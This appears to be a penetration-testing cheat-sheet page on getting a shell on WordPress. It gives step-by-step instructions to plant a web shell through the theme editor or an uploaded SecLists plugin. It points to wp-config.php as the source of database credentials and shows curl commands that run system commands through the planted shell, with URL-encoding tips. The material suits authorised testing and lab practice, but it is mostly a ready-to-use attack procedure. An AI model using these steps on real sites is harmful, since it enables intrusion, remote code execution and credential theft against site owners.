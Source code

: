 ```yaml
---
title: Wordpress
parent: Shell (Reverse/Others)
layout: default
nav_order: 10
---
```


Appearance -> Themes Editor, then any page. Put in the shell. After that browse to /wp-content/themes/themename/xxx.php to get reverse shell.

/var/www/html/wp-config.php is usually where you will find DB connection info.

To add new plugins in case no theme for us to edit, use the following:
`cd /usr/share/seclists/Web-Shells/WordPress`\
`sudo zip plugin-shell.zip plugin-shell.php`\
Go to wordpress, plugins, then Add New -> Upload plugin -> Browse and select the zip. Install.
RCE:\
`curl http://IP/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=ls`\
If use this remember to encode space with %20, + with %2b
